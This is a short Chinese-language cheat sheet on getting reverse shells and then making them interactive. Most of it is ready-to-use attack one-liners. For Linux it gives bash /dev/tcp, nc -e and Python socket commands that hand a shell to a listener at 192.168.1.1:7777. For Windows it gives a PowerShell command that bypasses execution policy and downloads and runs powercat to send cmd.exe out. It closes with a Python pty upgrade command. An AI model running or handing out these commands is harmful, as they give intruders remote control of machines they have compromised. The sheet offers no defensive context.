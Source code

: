 # 反弹shell & 提升shell交互式

## 0x01 反弹shell

### Linux

等待反弹的shell会话主机：192.168.1.1:7777  
### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
### python
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

### Windows

### powercat
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
## 0x02 提升shell交互能力

### Linux
#### python
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
